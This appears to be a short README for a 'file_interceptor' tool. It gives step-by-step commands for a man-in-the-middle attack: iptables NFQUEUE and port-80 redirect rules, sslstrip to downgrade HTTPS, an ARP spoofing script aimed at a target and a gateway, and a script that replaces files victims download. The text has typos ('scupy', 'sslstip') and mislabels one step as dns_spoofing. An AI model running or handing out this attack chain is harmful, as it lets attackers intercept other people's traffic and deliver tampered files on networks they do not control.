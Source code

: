 # file_interceptor

* Install scupy
`pip install scapy`
* Install netfilterqueue
`pip install netfilterqueue`
* Create queue
`iptables -I INPUT -j NFQUEUE --queue-num 0`
`iptables -I OUTPUT -j NFQUEUE --queue-num 0`
* Enable port redirecting
`iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000`
* Start sslstrip
`sslstip`
* Run arp spoofing script
`python arp_spoofing.py -t target_ip -g gateway_ip`
* Run dns_spoofing script
`python file_interceptor.py -u url_with_file`

Run script with --help to get help
`python file_interceptor.py --help`
